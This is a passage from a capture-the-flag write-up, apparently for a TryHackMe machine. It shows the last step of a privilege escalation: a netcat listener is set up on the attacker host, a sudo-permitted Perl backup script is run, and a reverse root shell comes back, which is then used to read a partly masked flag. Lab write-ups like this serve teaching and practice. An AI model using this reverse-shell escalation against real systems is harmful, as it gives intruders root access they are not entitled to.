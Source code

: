 _I striped out a bit of previous shell commands to keep it more clear._

Before running this script with `sudo` rights, on my host machine, I have set a new `netcat` listener on port `9999` with the command `nc -nlvp 9999`.

Now running the `Perl` script with `sudo` rights.

```commandline
$ sudo /usr/bin/perl /home/itguy/backup.pl
```

Looking back at the listener on the host machine, and we got hit.

```commandline
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.8.208.30] from (UNKNOWN) [10.10.62.182] 53114
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
THM{66****1d0177b6f37cb20d7751****9f}
```

Mission accomplished!

Hopefully you enjoyed as much as I did :-)
